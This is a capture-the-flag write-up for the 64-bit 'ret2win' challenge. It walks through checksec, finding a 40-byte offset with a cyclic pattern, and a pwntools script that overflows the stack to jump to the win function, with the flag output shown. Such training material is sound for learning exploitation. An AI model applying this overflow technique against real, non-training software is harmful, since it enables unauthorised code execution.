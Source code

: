 ## Ret2win 64
### running checksec against binary:
```
checksec ret2win
```
![1](https://user-images.githubusercontent.com/46090816/101412085-4701d980-38e2-11eb-9a96-bd956caa7d20.png)

As NX is enabled it means we deal with non-executable stack. 

### Running program
```
run
AAAABBBBCCCCDDDDEEEEFFFFGGGG
```
![1](https://user-images.githubusercontent.com/46090816/101412748-6a795400-38e3-11eb-9cea-fcf6947108af.png)

nothing interesting happens

### Overflow

lets create our pattern and feed it to program

```
pattern create 200
```

![1](https://user-images.githubusercontent.com/46090816/101413074-f12e3100-38e3-11eb-8921-6a5563d2a25a.png)
![1](https://user-images.githubusercontent.com/46090816/101413217-2aff3780-38e4-11eb-9bb6-4ee684970b62.png)

Since this is 64 bit binary RIP won't store part of our input as we can't jump there and execute it. However parts that could't be passed to RIP will be stored on the top of the stack in the  RSP lets find out our offset.
```
gdb-peda$ pattern offset AA0AAFAAbAA1AAGA
AA0AAFAAbAA1AAGA found at offset: 40

info functions
```
![1](https://user-images.githubusercontent.com/46090816/101621357-f25f7b00-3a15-11eb-9ee8-53f064cf1e68.png)


Since we know that we can overwrite the adress at offset 40 and we know the address of ret2win we can create our exploit

```
from pwn import *

exploit = "A"*40
win = p64(0x400756)

a = 0x0000000000400756

sh = process("./ret2win")
print("Input:")
sh.recvuntil("read()!")
sh.sendline(exploit + win)

sh.interactive()
```
```
 .../ret2win# python exploit.py 
[+] Starting local process './ret2win': pid 1567
Input:
[*] Switching to interactive mode


> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```
